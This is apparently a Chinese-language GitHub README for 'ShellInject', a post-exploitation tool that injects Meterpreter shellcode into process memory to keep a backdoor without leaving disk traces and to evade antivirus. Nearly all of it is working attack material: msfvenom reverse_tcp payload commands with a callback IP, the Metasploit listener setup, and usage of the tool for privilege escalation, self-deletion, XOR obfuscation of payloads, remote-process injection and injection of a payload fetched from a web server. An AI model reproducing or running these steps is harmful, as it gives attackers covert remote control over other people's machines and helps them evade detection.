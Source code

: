 # ShellCode 内存后门注入器

<br>

<div align=center>
  
![logo](https://user-images.githubusercontent.com/52789403/185021479-1816c5bc-2ad4-4d54-beca-08ba5e3b3253.png)

<br>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/PeView) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![Download x64dbg](https://cdn.lyshark.com/archive/lydebug/download.svg)](https://github.com/lyshark/lydebug/releases) 

</div>

<br>
<b>版本：1.3</b>
<br>
<b>发布日期：2021-07-05 07:25</b>
<br>

ShellInject 是一款通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

主要模块与功能:

 - 1.显示可注入进程
 - 2.提升自身权限
 - 3.删除自身痕迹
 - 4.字节数组格式化
 - 5.字节数组格式化
 - 6.文本压缩后异或
 - 7.字符串转为字节数组
 - 8.字节数组加密/解密
 - 9.注入字符串到自身
 - 10.注入字节数组到自身
 - 11.从文本字符串注入
 - 12.注入字符串到远程进程
 - 13.从远程加载字符串并注入
 - 14.从文件读入加密字符串并注入
 - 15.注入加密后的字符串到远程进程

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为32位与64位，使用时需要与载荷的位数相对应。
```
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

**输出可注入进程:** 列举出目前系统中支持注入的进程，输出参数中最左侧是位数，只可做参考有时不太准确。
```
C:\Users\admin\Desktop> sc32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    468        进程名 => smss.exe
[*] x32 进程PID =>    720        进程名 => csrss.exe
[*] x64 进程PID =>   6888        进程名 => explorer.exe
```

**尝试使用令牌提权:** 该命令可以尝试提升自身权限，不过多半提权会是失败的，但也可以试试。
```C
C:\Users\admin\Desktop> sc32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

**清除自身痕迹:** 当我们完成远程注入后，记得将自身在系统中删除，此时的ShellCode直接在目标进程中安家了，不需要注入器了。
```
C:\Users\admin\Desktop> sc32.exe --delself

[*] 自身已清除
```

**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```

# LySocket 远程注入远控



